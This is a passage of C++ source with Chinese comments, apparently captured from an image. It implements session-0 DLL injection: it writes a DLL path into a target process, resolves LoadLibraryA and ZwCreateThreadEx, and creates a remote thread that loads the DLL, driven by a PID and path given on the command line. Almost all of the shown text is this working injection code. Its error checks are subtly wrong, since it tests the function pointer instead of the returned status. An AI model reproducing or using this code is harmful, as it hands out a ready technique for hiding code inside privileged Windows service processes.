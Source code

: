 ```cpp
	if (!WriteProcessMemory(hProcess, paraAddr, dllPath, DllNameLength + 1, NULL))
	{
		printf("写入内存失败！\n");
		return false;
	}

	//4 获取loadlibrary函数的地址
	HMODULE LibHandle = GetModuleHandle("kernel32.dll");
	FARPROC ProcAdd = GetProcAddress(LibHandle, "LoadLibraryA");
	if (!ProcAdd)
	{
		printf("获取LoadLibraryA失败!\n");
		return false;
	}

	//5 通过调用GetProcAddress函数来获取ZwCreateThreadEx函数的地址
	HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	DWORD dwStatus;
	HANDLE hRemoteThread; 
	Fn_ZwCreateThreadEx ZwCreateThreadEx = (Fn_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		printf("GetProcAddress error\n");
		return -1;
	}

	//6 使用获取到的ZwCreateThreadEx函数在目标进程中创建线程，运行LoadLibraryA函数，参数为DLL路径
	dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess,
		(LPTHREAD_START_ROUTINE)ProcAdd, paraAddr, 0, 0, 0, 0, NULL);
	if (NULL == ZwCreateThreadEx)
	{
		printf("ZwCreateThreadEx error\n");
		return -1;
	}

	//释放dll
	FreeLibrary(hNtdllDll);

	//释放句柄
	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
}


int main(int argc, char* argv[])
{
	if (argc == 3)
	{	
		//atoi函数可将字符串转化为整数
		BOOL bRet = Session0Inject((DWORD)atoi(argv[1]), argv[2]);
		
		if (-1 == bRet)
		{
			printf("Inject dll failed\n");
		}
		else
		{
			printf("Inject dll successfully\n");
		}
	}
	else
	{
```